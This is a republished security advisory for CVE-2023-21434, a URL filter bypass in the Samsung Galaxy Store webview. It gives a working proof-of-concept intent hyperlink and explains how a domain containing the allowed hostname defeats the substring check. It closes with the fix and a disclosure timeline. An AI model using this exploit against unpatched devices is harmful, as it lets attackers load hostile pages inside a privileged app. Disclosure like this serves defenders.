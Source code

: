 ```yaml
---
layout: page
title: CVE-2023-21434 Details
permalink: /cves/cve-2023-21434
---
```


#### Original post: [https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/](https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/)

|    **Product**    | Galaxy Store 4.5.48.3, other versions affected |
|    **Severity**   |                  Moderate                  |
| **CVE Reference** |             CVE-2023-21434             |
|      **Type**     |      URL Filter Bypass      |

## Summary

It was found that a webview within the Galaxy App Store contained a filter which limited which domains that webview could browse to. However, the filter was not properly configured, which would allow the webview to browse to an attacker controlled domain.

## Impact

Either tapping a malicious hyperlink in Google Chrome or a pre-installed rogue application on a Samsung device can bypass Samsung’s URL filter and launch a webview to an attacker controlled domain.

## Proof of Concept (PoC)

While using the Chrome web browser on a Samsung device, the following hyperlink can be tapped to exploit this issue:

```
<h1>
  <a id="yayidyay" rel="noreferrer" href="intent://cloudgame/monitor?monitoringHost=<host>#Intent;action=android.intent.action.VIEW;package=com.sec.android.app.samsungapps;scheme=normalbetasamsungapps;S.android%2eintent%2eextra%2eREFERRER_NAME=http://com.sec.android.app.samsungapps;end">
YAYPOCYAY</a>
</h1>
```

In the above PoC, "<host>" needs to be replaced with an attacker controlled domain, and a malicious website must be hosted on the domain over HTTPS. The domain name must have "player.glb.samsung-gamelauncher.com" in it. For example, the domain "player.glb.samsung-gamelauncher.com.nccgroup.com" would be a valid domain.

## Technical Walkthrough

After launching the above PoC, the class `com.sec.android.app.samsungapps.deeplink.CloudGameDeepLink` is loaded, and the method `e(context)` is executed. This method determines if the Cloud Game deeplink should be executed, and the requirements to return "True" are:

* The "sender" of the intent must be "com.sec.android.app.samsungapps"
    * This can be achieved by adding the string intent extra `android.intent.extra.REFERRER_NAME` in a browsable intent, and launched from the Google Chrome browser
    * Using the Samsung Browser will not meet this requirement due to how the browser handles browsable intents
* The "monitoringHost" parameter must contain the string "player.glb.samsung-gamelauncher.com"

```
private boolean e(Context context) {
    if (context.getPackageName().equals(getSender())) {
        return this.L.getMonitoringHost().contains("player.glb.samsung-gamelauncher.com");
    }
    Loger.w(String.format("[%s] Unauthorized access from %s", M, getSender()));
    return false;
    }
```

An attacker can register an arbitrary domain and add "player.glb.samsung-gamelauncher.com" as a subdomain. For example, the domain "player.glb.samsung-gamelauncher.com.nccgroup.com" would force the method `e(context)` to return "True"

## Recommendation

Samsung has released an updated version of the Galaxy App Store (version 4.5.49.8). Users should open the Galaxy App Store on their phone, and if prompted, download and install the latest version.

## Timeline

|    **Date**    | **Summary** |
|   03/12/2022   | Samsung notified of vulnerability |
|   03/12/2022   | Samsung acknowledge receipt of report and a security analyst was assigned to analyze the report |
|   18/12/2022   | Samsung confirmed the vulnerability and rated it as a Moderate risk |
|   01/01/2023   | Samsung has released Galaxy App Store version 4.5.49.8 and has publicly disclosed the issue |